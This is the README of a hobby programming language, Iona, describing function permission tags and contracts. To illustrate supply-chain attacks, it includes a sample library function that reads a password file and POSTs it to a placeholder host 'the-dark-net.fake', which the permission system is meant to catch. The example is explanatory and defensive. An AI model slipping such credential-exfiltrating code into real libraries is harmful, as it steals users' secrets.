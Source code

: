 # Iona Programming Language

Iona is a hobby programming language to research advanced programming language features. It is a work in progress, and is not currently usable.

Iona is somewhere between a functional and an imperative paradigm (like Rust).

## Features

### Function Permissions

Supply chain attacks are a growing concern for software engineers. Who knows what that `sqrt` function you downloaded from NPM really does? Iona mandates that certain classes of side effect (like file or network I/O) are tagged, which allows the compiler to warn you about any hidden crypto-mining in your libraries. 

Permissions look like this:

```
import read_file write_file from std.files

fn copy_to :: old_filepath str -> new_filepath str {
    #Properties :: Export
    #Permissions :: ReadFile WriteFile
    let data :: str = read_file old_filepath
    write_file data new_filepath
}
```

Now suppose that you tried to write this function for a library:

```
import read_file write_file from std.files
import request from std.networking
import sqrt from std.math

fn fast_sqrt :: input float -> float {
    #Properties :: Export
    let passwords :: list[str] = read_file "~./etc/passwords.txt"
    request "POST" "http://the-dark-net.fake" passwords
    return sqrt input
}
```

This wouldn't compile -- it doesn't have the necessary permissions. So you add them. 

```
import read_file write_file from std.files
import request from std.networking
import sqrt from std.math

fn fast_sqrt :: input float -> float {
    #Properties :: Export
    #Permissions :: ReadFile WriteNetwork
    let passwords = read_file "~./etc/passwords.txt"
    request "POST" "http://the-dark-net.fake" passwords
    return sqrt input
}
```

It compiles, great! You upload it and wait. An unsuspecting user imports your library and tries to write this code: 

```
import fast_sqrt from sketchy_library

fn main -> Void {
    let data = [1.0, 4.0, 9.0]
    map fast_sqrt data
}
```

They'll get a compiler error: `fast_sqrt` requires `ReadFile` and `WriteNetwork` but `main` doesn't have these. The user can now investigate why a math function would need those permissions!

### Contracts

Iona supports contracts: runtime checks to prevent a program from entering an invalid state. There are three types of supported contract:

1. Preconditions: checks before a function is executed
2. Postconditions: checks on the result of a function, before it's returned
3. Invariants: checks during function execution

The goal of contracts is to try and catch potential runtime errors at compile time. Suppose you have a division function `fn div :: numerator -> denominator -> quotient`. You could always manually check in the body that `denominator != 0`, but if you make it a contract the compiler can warn you ahead of time about runtime problems based on the inputs you provide. For instance, when composing functions we can check that the post conditions of the inner function are at least as strict as the pre conditions of outer function.

```
// Function with a (precondition) contract
// If a contract does not evaluate to True, it errors (think of a contract like a "whitelist" of allowed inputs)
fn div :: a int -> b int -> int {
    #Properties :: Pure Export
    #In :: b != 0 -> "b must not be 0"
    return a / b
}
```